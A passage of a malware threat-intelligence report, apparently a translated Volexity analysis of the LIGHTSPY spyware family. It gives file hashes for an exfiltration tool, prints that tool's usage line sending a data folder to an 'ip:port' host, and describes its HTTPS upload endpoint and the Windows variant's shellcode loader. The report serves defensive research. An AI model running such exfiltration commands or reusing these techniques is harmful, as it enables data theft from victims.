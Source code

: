 <table><tbody style="appearance: none;outline: 0px;"><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;font-weight: 700;font-size: 12px;">姓名</span></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;vertical-align: inherit;font-size: 12px;">本地上传工具</span></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;font-weight: 700;font-size: 12px;">尺寸</span></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;vertical-align: inherit;font-size: 12px;">618.5KB (633344 字节)</span></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;font-weight: 700;font-size: 12px;">文件类型</span></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;vertical-align: inherit;font-size: 12px;">应用程序/x-dosexec</span></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;font-weight: 700;font-size: 12px;">MD5</span></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;vertical-align: inherit;font-size: 12px;">533297a7084039bf6bda702b752e6b82</span></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;font-weight: 700;font-size: 12px;">SHA1</span></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;vertical-align: inherit;font-size: 12px;">20214e2e93b1bb37108aa1b8666f6406fabca8a0</span></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;font-weight: 700;font-size: 12px;">SHA256</span></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;vertical-align: inherit;font-size: 12px;">f4e72145e761bcc8226353bb121eb8e549dc0000c6535bfa627795351037dc8e</span></td></tr><tr style="appearance: none;outline: 0px;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;font-weight: 700;font-size: 12px;">VirusTotal 首次提交</span></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;outline: 0px;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><span style="appearance: none;vertical-align: inherit;font-size: 12px;">不适用</span></td></tr></tbody></table>  
```
localupload.exe  c:\data_to_exfiltrate\ ip:port
```  
  
  
渗透是通过 HTTPS 到硬编码 API 端点进行的，/api/third/file/upload/通常在端口 29983 上（尽管这不是默认设置，而是由操作员在命令行中设置的）。  
  
**LIGHTSPY 背景**  
  
LIGHTSPY 恶意软件家族于 2020 年被公开记录，当时卡巴斯基和趋势科技报告了一起针对香港个人的移动恶意软件活动。最近，Lookout和ThreatFabric讨论了 LIGHTSPY 移动恶意软件活动。Lookout 将其称为“DragonEgg”（LIGHTSPY）的恶意软件与另一个恶意软件家族WyrmSpy以及美国司法部关于 APT41 的起诉书联系起来。Huntress和ThreatFabric讨论了 LIGHTSPY 的 macOS 变体，后者还详细介绍了一些相关的 C2 管理基础设施。  
  
总结已知和报告的内容，LIGHTSPY 是一个多平台恶意软件家族，有针对 Android、iOS 和 macOS 的变种记录。卡巴斯基和ThreatFabric之前曾发现有针对 Windows、Linux 和路由器的变种存在，但他们没有记录进一步的分析。  
  
Volexity 能够检索专门为 Windows 编写的 LIGHTSPY 副本。与其他 LIGHTSPY 变体不同，Windows 变体未使用相同的增量 XOR 算法进行编码。相反，它使用更复杂的算法进行编码，该算法还包括在文件开头填充。LIGHTSPY 的 Windows 变体的架构与其他已记录的 OS 变体不同。此变体由安装程序部署，该安装程序部署一个库以在内存中执行 shellcode。shellcode 从 C2 服务器下载并解码编排器组件（pic32.png适用于 x86 和pic64.pngx64 架构）。  
  